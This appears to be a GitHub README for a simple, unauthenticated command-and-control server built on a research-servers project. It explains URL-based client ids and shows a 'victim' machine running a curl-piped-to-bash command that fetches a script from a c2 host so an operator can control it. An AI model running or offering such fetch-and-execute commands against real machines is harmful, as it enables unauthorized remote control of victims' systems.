 # ResearchServers C2

A simple, single user, Command & Control server built on top of [ajxchapman/researchservers.](https://github.com/ajxchapman/researchservers)

**NOTE:** This does not implement *any* authentication. Anyone with knowledge of the URL a client connects over will be able to issue commands to the client.

Clients are given ids based on the connecting URL, for example a client connecting to https://c2.exmaple.com/client1/ will have an id of `client1`. In order to control this client you must connect to https://c2.example.com/client1/controller.html.

Ids are calculated from the URL Hostname and Path of the connecting client, e.g. :
* https://c2client2.example.com will have an id of `client2`
* https://www.example.com/c2client3/ will have an id of `client3`
* https://www.example.com/c2client4/test/ will have an id of `client4.test`
* https://c2org.example.com/it/ will have an id of `org.it`

The `/get_id` endpoint can tell you the id for a given URL:
```bash
user@victim:~$ curl https://c2org.example.com/c2id11211/testing/get_id
{"id": "org.id11211.testing"}
```

In order for requests to be routed to the c2 backend either the hostname or the first path directory must begin with the string `c2`.

## Example

`victim`
```bash
user@victim:~$ curl https://c2id11211.example.com/runme.sh | bash
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                               Dload  Upload   Total   Spent    Left  Speed
100   458  100   458    0     0   1721      0 --:--:-- --:--:-- --:--:--  1721
```

`server`
https://c2.example.com/id11211/controller.html

![screenshot from 2019-01-23 11-45-03](https://user-images.githubusercontent.com/3729326/51615460-d33dca00-1f1f-11e9-948c-98135358c620.png)
